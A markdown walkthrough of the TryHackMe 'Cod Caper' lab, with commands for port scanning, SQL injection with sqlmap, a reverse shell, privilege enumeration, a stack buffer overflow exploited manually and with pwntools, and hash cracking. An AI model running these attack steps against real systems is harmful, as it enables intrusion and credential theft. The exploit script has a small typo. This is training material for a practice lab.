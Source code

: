 # Room
https://tryhackme.com/room/thecodcaper

# Task 1 - Deploy
Deploy VM

# Task 2 - Enumeration
Use nmap to grab info on the target host
```
nmap -A -T4 10.10.210.146 | tee nmap.txt
```

# Task 3 - Web Enumeration
Use gobuster to enumerate the web server
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.210.146 -t 40 -x php,txt,html
```

# Task 4 - Web Exploitation
Use sqlmap to attack the web page you found above
```
sqlmap -u http://10.10.210.146/administrator.php --forms --dump
```

# Task 5 - Command Execution
Login to the web page using the credentials from the database dump you found above.  Start a listener and execute a reverse shell from within the PHP command form
```
https://weibell.github.io/reverse-shell-generator/
```

After a shell is launched, search for files pertaining to a specific user
```
find / -type f -user www-data 2>/dev/null
```

# Task 6 - Enumeration with LinEnum
Copy LinEnum to the target using the new login credentials you found above
```
scp LinEnum.sh pingu@1.2.3.4:LinEnum.sh
```
Login to the host with the credentials and then change LinEnum.sh to be an executable file
```
chmod +x LinEnum.sh
```
Run LinEnum
```
./LinEnum.sh | tee le.txt
```
Review the output and pay attention to anything out of the ordinary

# Task 7 - pwndbg
Start pwndbg and point it to the out of place file you found above
```
gdb /opt/secret/root
```
Pass 50 characters worth of cyclic input to the program
```
r < <(cyclic 50)
```
In the backtrace output, you'll see an address that faults
```
───────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 6161616c
   f 1 f700616d
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
```
To find how many characters you need to overwrite the EIP
```
pwndbg> cyclic -l 0x6161616c
44
```

# Task 8 - Binary Exploitation - Manual
In the same pwndbg session from the last task, run disassemble shell to find the shell function memory address
```
pwndbg> disassemble shell
Dump of assembler code for function shell:
   0x080484cb <+0>:     push   ebp
   0x080484cc <+1>:     mov    ebp,esp
   0x080484ce <+3>:     sub    esp,0x8
   0x080484d1 <+6>:     sub    esp,0xc
   0x080484d4 <+9>:     push   0x3e8
   0x080484d9 <+14>:    call   0x80483a0 <setuid@plt>
   0x080484de <+19>:    add    esp,0x10
   0x080484e1 <+22>:    sub    esp,0xc
   0x080484e4 <+25>:    push   0x3e8
   0x080484e9 <+30>:    call   0x8048370 <setgid@plt>
   0x080484ee <+35>:    add    esp,0x10
   0x080484f1 <+38>:    sub    esp,0xc
   0x080484f4 <+41>:    push   0x80485d0
   0x080484f9 <+46>:    call   0x8048380 <system@plt>
   0x080484fe <+51>:    add    esp,0x10
   0x08048501 <+54>:    nop
   0x08048502 <+55>:    leave  
   0x08048503 <+56>:    ret    
End of assembler dump.
```
* In this case the specific address is 0x080484cb
* Convert this address to little endian using Python while submitting 44 characters and pipe to the program
```
pingu@ubuntu:~$ python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)' | /opt/secret/root
root:$6$rFK4s/vE$zkh2/RBiRZ746
...
...
...
...
Segmentation fault
```

# Task 9 - Binary Exploitation - pwntools
Create a pwntools program with Python to do the same thing
```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
    44: shell_func
})
proc.sendline(pyaload)
proc.interactive()
```

# Task 10 - Crack the hash
Crack the root user hash with hashcat
```
 .\hashcat.exe -m 1800 -a 0 .\tc.txt .\rockyou.txt
```
* Resources
  * https://hashcat.net/wiki/doku.php?id=example_hashes

# Task 11 - Conclusion
Conclusion
* Resources
  * https://docs.pwntools.com/en/stable/
  * https://browserpwndbg.readthedocs.io/en/docs/

